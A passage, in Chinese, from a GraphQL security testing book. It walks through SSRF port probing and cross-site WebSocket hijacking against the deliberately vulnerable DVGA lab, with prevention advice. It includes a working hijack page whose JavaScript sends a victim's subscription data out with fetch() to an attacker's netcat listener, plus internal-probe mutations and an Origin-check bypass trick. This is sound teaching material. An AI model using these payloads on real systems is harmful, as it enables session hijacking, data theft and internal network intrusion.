最后一种类型的 SSRF 是渗透测试人员希望发现的类型：*非盲 SSRF*（也称为 *完全读取 SSRF*），在这种情况下，服务器会向攻击者返回完整的响应，表明 SSRF 漏洞的存在。在图像获取服务的示例中，我们可能会在向应用程序提供非图像类 URL 后看到完整的 HTTP 响应。

### 搜索易受攻击的操作、字段和参数

在测试 GraphQL 服务器是否存在 SSRF 时，需要检查所有可能的操作，无论是变更操作还是查询操作。如你所料，SSRF 通常影响一个或多个接受值的易受攻击的 GraphQL 参数，例如标量。

还要特别注意 GraphQL 字段名称，看看它们的设计目的是什么。例如，字段名包含动词如 *fetch*、*import*、*download* 或 *read*，可能暗示着服务器执行某个操作，如从某个地方读取数据或获取资源。除了字段名称，某些参数名称可能表明服务器正在尝试执行外部连接以解析查询。以下是一些例子：

1.  `ip`

1.  `url`

1.  `host`

1.  `network`

1.  `domain`

1.  `site`

1.  `target`

1.  `fetch`

1.  `img_url`

1.  `target_url`

1.  `remote_url`

这只是一个部分列表，但它可以帮助你了解哪些关键词可能具有提示作用。

### 测试 SSRF 漏洞

让我们通过 Burp Suite 来测试 DVGA 的 SSRF 漏洞。点击**打开浏览器**，打开内置浏览器。然后，快速浏览 DVGA 的网页界面。有任何异常之处吗？比如在图 9-6 中显示的导入粘贴页面呢？



图 9-6：DVGA 的导入粘贴页面

从 URL 导入表单接收一个 URL 并尝试从中导入粘贴内容。要查看提交 URL 后发生的情况，在 Burp Suite 中启用拦截模式，输入任意 URL 到搜索框，然后点击**提交**。（这是一个可以导入的粘贴示例：*https://pastebin.com/raw/LQ6u1qyi*。）你应该能在 Burp 中看到类似以下的请求：

```
POST /graphql HTTP/1.1
Host: localhost:5013
Content-Length: 302
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
`--snip--`
Origin: http://localhost:5013
Referer: http://localhost:5013/import_paste
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: env=graphiql:disable
Connection: close

{"query":"mutation ImportPaste ($host: String!, $port: Int!, $path: String!,
$scheme: String!) {\n        importPaste(**host:** $host, **port:** $port, **path:** $path,
**scheme:** $scheme) {\n          result\n        }\n }","variables":{"host":"pastebin.com","port":443,"path":"/raw/LQ6u1qyi",
"scheme":"https"}}
```

如你所见，请求使用了 `importPaste` 变更操作，接受四个参数：`host`、`port`、`path` 和 `scheme`。POST JSON 负载包含 `variables` 键，用于将 URL 组件（值）传递给这些参数。

在后台，DVGA 使用 URL 作为 HTTP GET 请求的一部分，读取响应，并将其添加到粘贴数据库中。要查看导入的内容，点击 Burp Suite 中的**转发**按钮，将请求发送到 GraphQL 服务器，关闭拦截模式，然后进入**私人粘贴**页面。

从底层来看，GraphQL 发起了一个 HTTP 请求，从 URL 中检索该内容。这种功能明显是 SSRF 漏洞的表现！让我们手动探索相同的 GraphQL 查询，修改其中的一些值。变更操作见清单 9-7。

```
mutation {
  importPaste(scheme: "https", host:"pastebin.com", port:443, path:"/raw/LQ6u1qyi") {
    result
  }
}
```

清单 9-7：`importPaste` 变更操作

如果你仔细观察，这四个参数组成了 GraphQL 构建 URL 的基本元素（在这个例子中是 *https://pastebin.com:443/raw/LQ6u1qyi*）。如果我们能使用 HTTP（或 HTTPS）协议，并提供任意的域名和端口，那么就没有什么可以阻止我们在 DVGA 网络上探查其他服务了，对吧？

让我们看看当我们指定内部 URL 而非外部 URL 时会发生什么。在清单 9-8 中，我们指定了一个不同的 URL 目的地来导入粘贴内容。该变更操作将迫使 DVGA 通过 HTTP 请求从 *http://localhost:8080/paste.txt* 导入粘贴。请注意，虽然 `localhost` 是一个有效的主机，但端口 `8080` 在 DVGA 容器上并未开放，因此这个请求不会返回任何有意义的内容。

```
mutation {
  importPaste(scheme: "http", host:"localhost", port:8080, path:"/paste.txt") {
    result
  }
}
```

清单 9-8：恶意版本的 `importPaste` 变更请求

在运行变更请求后，你应该从 Altair 中看到如下响应：

```
{
  "data": {
    "importPaste": {
      "result": ""
    }
  }
}
```

服务器返回了一个空的 `result` 对象值。我们在 Altair 中很快就得到了这个响应。（在我们的实验室中，我们在 100 毫秒内就收到了。）因此，我们现在知道，如果我们探测一个未打开的端口，就会立即收到没有数据的 `result` JSON 键。

接下来，让我们通过探测一个存在的服务来模拟 SSRF 漏洞。为了模拟 DVGA 容器上的额外服务，我们将使用 Netcat。首先，在 Kali 终端中运行以下 Docker 命令，在 DVGA 容器中启动一个 Netcat 监听器：

```
# sudo docker exec -it dvga nc -lvp 7773

listening on [::]:7773 ...
```

接下来，我们将构造一个有效载荷，向 Netcat 正在绑定的端口（7773）发送 HTTP 探测请求，如 清单 9-9 所示。

```
mutation {
  importPaste(scheme: "http", host:"localhost", port:7773, path: "/ssrf") {
    result
  }
}
```

清单 9-9：利用 SSRF 漏洞的变更查询

如果你发送此查询，你应该会在 Netcat 监听器中看到类似 清单 9-10 的输出。

```
connect to [::ffff:127.0.0.1]:7773 from localhost:55554 ([::ffff:127.0.0.1]:55554)
GET /ssrf HTTP/1.1
Host: localhost:7773
User-Agent: curl/7.83.1
Accept: */*
```

清单 9-10：DVGA 请求到达内部服务

这表明 DVGA 向一个内部的、未公开的端口发送了 GET 请求。请注意，这个端口并不直接由 Kali 机器访问；我们是通过 DVGA 本身来访问它，说明了 SSRF 漏洞如何让攻击者访问他们本不应直接访问的服务。这个 SSRF 攻击更具体地说是一种 *跨站端口攻击（XSPA）*，属于 SSRF 漏洞类别。

你可能也注意到，在发送了 `importPaste` 变更请求后，Altair 会卡住，见 清单 9-10。这是因为我们打开的 Netcat 监听器没有返回响应，而 Altair 等待直到收到来自 GraphQL API 的响应。这实际上是一个盲 SSRF，因为作为攻击者我们无法直接访问响应；我们所知道的只是，当我们探测一个打开的端口时，客户端会卡住。你可以通过按 CTRL-C 来关闭 Netcat 监听器。此时，Altair 状态应该恢复正常。

### 防止 SSRF

要判断一个应用是否可能容易受到 SSRF 攻击，我们可以问自己这个问题：客户端是否控制 API 流程中任何目标 URL？SSRF 主要涉及通过将目标 URL 定向到意外的、受限的内部或外部位置来操纵目标 URL。以下是一些防范此类攻击的策略：

+   **输入验证。** 允许拒绝传递给接受 URL 作为查询或变更的一部分的 GraphQL 参数中的危险字符。确保仅接受授权的 URL，并帮助降低 SSRF 风险。

+   **网络分段。** 通过确保应用程序只能与相关的内部网络通信，帮助最小化风险。在你的暂存网络中，如果一个脆弱的 GraphQL API 不应当能够访问生产网络中的另一个 GraphQL API。

+   **威胁建模**。可以在 GraphQL API 的开发生命周期中及早识别潜在风险，更具体地说，识别可能受到 SSRF 攻击的查询或突变。

+   **最小权限原则**。有助于最小化影响范围。确保 GraphQL 运行的实例没有过度宽松的权限，并且无法在多个应用间执行特权操作。

在接下来的章节中，我们将讨论基于劫持的漏洞，这些漏洞影响 GraphQL 订阅。

## 跨站点 WebSocket 劫持

如果攻击者能够通过获取会话 cookie 来劫持用户会话，这些 cookie 授予应用程序的特殊权限，他们就可以使用受害者的权限执行操作并访问其敏感数据。*CSWSH* 是一种影响 WebSocket 通信握手部分的 CSRF 漏洞，这些通信使用基于 cookie 的认证。因为 GraphQL API 可以使用 WebSocket 进行订阅操作，所以它们面临着 CSWSH 漏洞的风险。

在第三章中，我们展示了在使用 WebSocket 进行 GraphQL 订阅通信时，客户端和服务器之间发送的握手请求和响应。客户端通过 HTTP 发起这些 WebSocket 握手，并且如果 WebSocket 服务器实现了认证，可能会包括类似以下的 cookie：

```
Cookie: session=somesessionID
```

CSWSH 可能发生在 WebSocket 连接握手中未包含反 CSRF 令牌时，这样攻击者就可以执行跨源请求。当没有此类令牌时，攻击者可以轻松编写特定代码，伪造 WebSocket 消息，代表受害者使用其认证会话。

除了反 CSRF 令牌外，WebSocket 服务器还应该验证 WebSocket 握手请求中的 `Origin` 头部。`Origin` 头部具有重要的安全功能，因为它标识了请求的来源。如果服务器没有检查此头部，它将无法知道握手请求是否是伪造的。任何来自未经授权来源的握手请求应该返回 *403 Forbidden* 响应码，而不是 *101 Switching Protocols*。

### 查找订阅操作

CSWSH 漏洞存在于传输协议层，因此并不是 GraphQL 本身的缺陷。在 GraphQL 的上下文中，只有当 GraphQL API 使用订阅进行实时更新时，你才会发现这些漏洞。因此，为了测试 CSWSH，我们首先需要知道目标应用是否有任何与订阅相关的字段。为了发现这一点，我们可以使用依赖于 `subscriptionType` 的 introspection 查询来获取字段名，如 示例 9-11 所示。

```
query {
  __schema {
    subscriptionType {
      fields {
        name
      }
    }
  }
}
```

示例 9-11：通过使用 introspection 获取订阅字段名

如果你在 Altair 中针对 DVGA 运行此查询，你应该会注意到架构中有一个名为 `paste` 的字段，订阅操作可以使用该字段。

### 劫持订阅查询

现在，让我们劫持一个订阅查询并提取它的响应。为了模拟这个攻击，我们将采取以下步骤。从攻击者的角度来看，我们将在端口 4444 上打开一个 Netcat TCP 监听器，用于接收提取的响应。接下来，从受害者的角度来看，我们将通过将一个 HTML 文件拖入浏览器来模拟用户成为社交工程攻击的受害者，这样它会加载 JavaScript 代码，劫持用户的会话，进行 WebSocket 握手并订阅`paste`事件。我们还将在 DVGA 中创建一个新的粘贴内容，以供订阅查询提取。这将模拟受害者可能访问但攻击者不应访问的网站活动。最后，我们将读取通过 Netcat 获取的提取响应。

让我们首先检查底层代码，了解攻击模式。将 CSWSH 劫持代码保存到[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/websockets_hijack.html`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/websockets_hijack.html)并保存在桌面上。确保文件名具有*.html*扩展名。清单 9-12 显示了代码。

```
<html>
  <h2>WebSockets Hijacking and GraphQL Subscription Response Exfiltration Demo</h2>
</html>

<script>
    const GQL = {
      CONNECTION_INIT: 'connection_init',
      CONNECTION_ACK: 'connection_ack',
      CONNECTION_ERROR: 'connection_error',
      CONNECTION_KEEP_ALIVE: 'ka',
      START: 'start',
      STOP: 'stop',
      CONNECTION_TERMINATE: 'connection_terminate',
      DATA: 'data',
      ERROR: 'error',
      COMPLETE: 'complete'
    }

  ws = new WebSocket('ws://localhost:5013/subscriptions'); ❶
  ws.onopen = function start(event) {
        var query = 'subscription getPaste {paste { id title content
ipAddr userAgent public owner {name} } }'; ❷

        var graphqlMsg = {
             type: GQL.START,
             payload: {query}
        };
        ws.send(JSON.stringify(graphqlMsg)); ❸
  }
  ws.onmessage = function handleReply(event) {
    data = JSON.parse(event.data) ❹
    fetch('http://localhost:4444/?'+ JSON.stringify(data), {mode: 'no-cors'}); ❺
  }
</script>
```

清单 9-12：执行 WebSocket 劫持的 JavaScript 代码

我们初始化一个新的`WebSocket`对象，并指定 DVGA 的订阅 URL ❶。在❷处，我们声明一个`query`变量，其中包含订阅查询。该查询订阅`paste`事件，并提取字段，如`id`、`title`、`content`、`ipAddr`、`userAgent`、`public`和所有者的`name`。在❸处，我们通过 WebSocket 协议发送一个包含此查询的 JSON 字符串。发送完消息后，当收到 WebSocket 消息时，将调用`ws.onmessage`事件处理程序。该处理程序会将消息解析为 JSON 对象 ❹。消息解析完成后，代码在❺处通过使用 GET URL 参数将响应提取到目标位置（在此情况下是*http://localhost:4444*）。

让我们开始吧！在终端窗口中，运行以下命令以启动 Netcat 监听器：

```
# nc -vlp 4444

listening on [any] 4444 ...
```

我们传递给 Netcat 的`-vlp`标志告诉它在端口(`-p`)4444 上以详细模式(`-v`)进行监听(`-l`)。接下来，打开一个浏览器窗口，并将你之前下载的 HTML 文件拖入浏览器窗口。你应该会看到图 9-7 所示的页面。



图 9-7：WebSocket 劫持演示

接下来，打开另一个浏览器窗口，点击左侧的**创建粘贴**以打开*http://localhost:5013*上的“创建粘贴”页面。输入你能识别的标题和信息，如图 9-8 所示。



图 9-8：DVGA 中的粘贴创建

接下来，点击**提交**，并密切关注 Netcat 运行的终端窗口。你应该会看到类似这样的输出：

```
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 50198
GET /?**{%22type%22:%22data%22,%22payload%22:{%22data%22:{%22paste%22:{%22id%22:**
**%2214%22,%22title%22:%22This%20will%20get%20exfiltrated!%22,%22content%22:%22**
**Exiltrated%20Data%22,%22ipAddr%22:%22172.17.0.1%22,%22userAgent%22:%22**
**Mozilla/5.0%20(Windows%20NT%2010.0;%20Win64;%20x64)%20AppleWebKit/537**
**.36%20(KHTML,%20like%20Gecko)%20Chrome/96.0.4664.45%20Safari/537.36%22,**
**%22public%22:true,%22owner%22:{%22name%22:%22DVGAUser%22}}}}}** HTTP/1.1
Host: localhost:4444
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Netcat 接收到来自受害者的 GET 请求，包含提取的粘贴数据。你可以看到请求的 URL 参数以 `/?{%22type` 开头。有效载荷经过 URL 编码，但解码后，你可以立即识别出它是我们通过 DVGA 用户界面创建的粘贴数据。你可以使用类似 [`meyerweb.com/eric/tools/dencoder`](https://meyerweb.com/eric/tools/dencoder) 的网站，或者通过在终端使用 Python 来进行这种 URL 解码，如 示例 9-13 所示。

```
# echo** `'ADD-STRING-HERE'` **| python3 -c "import sys;
**from urllib.parse import unquote; print(unquote(sys.stdin.read()));"**
```

示例 9-13：使用 Python 进行 URL 解码

我们通过强制客户端访问一个攻击者控制的网站，成功地提取了数据。该网站的自定义代码发送伪造的跨站 WebSocket 消息，并将响应数据传送到远程 Netcat 监听器。

### 防止 CSWSH

因为 CSWSH 是一种 CSRF 攻击，你可以通过使用 CSRF 防护技术来防止它。使用除 cookies 以外的身份验证方式（如 JWT）来认证客户端的 WebSocket 服务器，也可以提供保护。当服务器使用 JWT 令牌时，跨站 WebSocket 消息如果没有正确的头部将无法进行身份验证，从而导致握手失败。

验证 `Origin` 头部对于防止 CSWSH 攻击也至关重要，从黑客的角度来看，这项验证值得测试是否能绕过。服务器可能会以不同的方式检查该头部。例如，如果应用程序只允许 *example.com* 作为来源，攻击者可能会尝试创建一个将其用作子域的域名，如 *example.com.attacker.net*。如果服务器以简单的方式（例如，仅检查字符串 *example.com*）验证 `Origin` 头部，这样的攻击可能会绕过验证逻辑。

## 总结

本章介绍了影响 GraphQL API 消费者和服务器的攻击。通过基于 GET 和 POST 的 CSRF 攻击，攻击者可以伪造客户端的查询和突变。通过使用 CSWSH 劫持 WebSocket 通信，攻击者可以提取 GraphQL 订阅响应。最后，SSRF 允许攻击者伪造服务器请求，并可能访问内部资源。
